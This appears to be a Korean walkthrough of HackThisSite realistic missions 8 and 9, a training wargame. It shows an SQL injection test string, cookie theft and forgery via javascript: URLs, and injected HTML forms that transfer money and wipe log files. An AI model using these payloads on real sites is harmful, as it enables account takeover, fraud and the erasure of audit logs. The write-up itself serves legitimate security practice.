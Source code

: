 ### 문제해결
- form-post방식, 클릭하면 login2.php로 이동
  - / input name: username, Password
  - register.php -> register2.php
- 등록한 후 로그인하면 들어가짐. 로그인된 경우에 돈 이동시킬 수 있음
- user info
  + 18글자만 입력 가능
- search.php -> search2.php
  + POST방식: '를 넣어보니 인젝션 취약점 있는듯
- 아이디를 넣으면 memo에 있는 내용이 출력됨
- `' or 1=1` 입력했더니 아이디랑 메모 나옴
- 의심가는 사람: GaryWilliamHunter : -- $$$$$ --
- 다 포스트방식이므로 javascript넣어야 할듯
- `javascript:alert(document.cookie)`
  + `ihateboa/123`으로 로그인 후 쿠키 보면 아래와 같음

![boa](images/8_boa.png)
	http://www.hackthissite.org/missions/realistic/8/login2.php

- 돈 먼저 옮기고, 로그삭제
  + `javascript:document.cookie="accountUsername=GaryWilliamHunter;"`
  + 아무 아이디나 로그인 한 상태에서 id만 게리헌터로 쿠키 변조

- 돈 옮기기
```html
javascript:document.write("
<form action='movemoney.php' method='POST'>
	<input type='submit' value='Move Money To A Different Account'>
	<input type='text' name='TO' value='dropCash'>
	<input type='text' name='AMOUNT' value='10000000'>
</form>")
```

- 로그 지우기
```html
javascript:document.write("
<form action='cleardir.php' method='POST'>
	<input type='hidden' name='dir' value='logFiles'>
	<input type='submit' value='Clear Files In Personal Folder'>
	</form>")
```

## Level 9. CrappySoft Software
### 문제해결
- 상사의 계정으로 들어가서 online payment system에 접속하기
  + 일단은 본인 아이디 사용하기
	+ Username: r-conner@crappysoft.com Password: ilovemywork
- Demo에 보면 프로그램 다운받을 수 있고, 실행시켜보면 아래와 같이 오류메시지가 뜨고 관리자 아이디가 나온다.
![9_crappy-soft-software.png](images/9_crappy-soft-software.png)
